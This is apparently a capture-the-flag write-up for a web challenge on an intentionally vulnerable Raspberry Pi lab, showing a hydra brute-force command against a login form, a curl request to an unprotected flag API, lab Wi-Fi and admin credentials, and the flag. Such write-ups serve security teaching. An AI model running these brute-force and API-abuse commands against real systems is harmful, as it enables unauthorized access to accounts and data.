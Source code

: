 # Web Exploit Challenge Write-Up

## Overview
**Challenge Name**: Web Exploit  
**Difficulty**: Medium  
**Category**: Web Security  
**Goal**: Exploit login and API vulnerabilities to retrieve a flag.

## What You’ll Need
- Browser or `curl`.
- Brute-force tool (e.g., `hydra`).
- UART-to-USB adapter (GPIO 4: RX, 6: Ground, 8: TX; 115200 baud).
- Terminal emulator (`minicom`).
- Wi-Fi client (SSID: `DVRPI`, password: `dvrpiconnect`).

## Challenge Description
A web server (`http://192.168.4.1:8008`) hosts a PHP application with a login page vulnerable to brute force and an insecure API. Brute-force the login to access the API and retrieve `/root/web/flag.txt`.

## How to Solve It
1. **Connect to Wi-Fi**:
   - Join SSID `DVRPI` (password: `dvrpiconnect`).
2. **Brute-Force Login**:
   - Visit `http://192.168.4.1:8008/login.php`.
   - Use `hydra`:
     ```bash
     hydra -l admin -P wordlist.txt 192.168.4.1:8008 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
     ```
     - Username: `admin`, Password: `password123`.
3. **Exploit API**:
   - Access `/api/getflag` with session cookie:
     ```bash
     curl -b "PHPSESSID=your_session_id" http://192.168.4.1:8008/api/getflag
     ```
     - Retrieve: `flag{DVRPi_WEB:EXPLOIT}`.
4. **Submit Flag**:
   - SSH: `ssh root@192.168.4.1`.
   ```bash
   /usr/local/bin/submit_flag.sh flag{DVRPi_WEB:EXPLOIT}
   ```

## What You Learn
- Brute force attacks.
- API security weaknesses.
- Session management in web applications.

## Notes
- **SSH**: Root login enabled (`PermitRootLogin yes`).
- **Wi-Fi AP**: Static IP 192.168.4.1, DHCP for clients (192.168.4.100-150).
- **GPIO**: Pins 24, 21, 23, 18 (~0.35V) may be faulty.
- Check `journalctl -u nginx` for logs.